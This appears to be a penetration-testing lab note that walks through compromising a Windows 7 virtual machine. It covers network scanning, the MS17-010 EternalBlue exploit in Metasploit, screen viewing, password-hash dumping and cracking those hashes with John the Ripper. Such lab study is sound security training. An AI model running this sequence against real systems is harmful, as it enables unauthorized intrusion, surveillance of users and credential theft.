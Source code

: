 # ♦ Day 12
</br>
</br>

## ◙ ***Getting into Win 7***
 </br>
 
# ♦ Getting into Win 7 : 
   ⇨ In this session we will be learning how to get into a windowsn device and can collect data or spying onto the host pc, for this we will be using a Windows professional device in our local nettwork(Virtual Machine). 
   </br>
   </br>
### ◙ Step-By-Step Guide 

### • 1. Reconnaissance : First of all we will be checking our local network if there arne any other devices connected or not (Note: for this to work in VM make sure both the devices are in same network settings preferrably "NAT Network" </br>
For scanning our local network we will be using ***arp scan*** by using following commands:

    sudo arp-scan -l -I eth1

After this we have to check which one of the device is tht we are looking for so for that we will use ***nmap*** to identify operating systems of all the devices individaually by using:

    sudo nmap -O >Ip add<

### • 2. Search For Vulnerability : Now we will be searching for the vulnerabilities of the ip we confirmed by doing nmap scans now for vulnerability searching we will be using the following command

    namp -Pn -sV --script vuln -oN vuln-win7-nmap.txt >IP add<

As we can see from above report tht there is a vulnerability availabe by the name "ms17-010".


### • 3. Now we would like to get some details on the this Vulnerability, for that we will be using ***"Searchsploit"*** :

    searchexploit ms17-010

As we acan see there are 6 exploits for this vulnerability, we will be using the one which can be done (Metasploit) cuz it most efficient and easy to do


### • 4. METASPLOIT : The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS signature development. </br>

• Now to acess metasploit we have to type a command 

    msfconsole

• After getting into msfconsole we have to search for the vulnerability ***"ms17-010"***


• Now select the 1st one with the name ***"Eternalblue"*** by using command ***"use 0"***

    use 0

### • 5. Setting up Msfconsole : 

• Now we have to set up our msfconsole by seeing all the options that wre neede to be filled by watching them carefully ***"Show options"***

    show options

now as we can see above we have to fill LPORT, LHOST, RHOSTS & RPORT by using :

    set RHOSTS >The Recivers Ip<
    set LHOST >The Linux Ip<
    set RPORT >The Reciving Port<
    set LPORT >The Listening Port<

⇨   After setting all tht we just simply have to Use ***"exploit"*** command

     exploit

• Now we have successfully gained the access of the Windows Machine, now we can use ***"help "*** command to get all the details of what can we do in the system, for example :

• screensahre : it is a command by which we can see what is going on the target device in realtime it hosts a realtime screen of the Target
  
    sharescreen
 
• hashdump : command to get all the hash of the password which the Target device is currently holding into it.
    
    hashdump
    
    
• After getting all the hash informations of the user, we have to save it and 

#### ◙ HASH ENUMERATION :
  For this we will be using a tool called John The Ripper with the command:

    john --format=NT --rules -w=/usr/share/wordlists/rockyou.txt hashfile.txt

And now we will finally get the password of our victim device 

# ♦ END
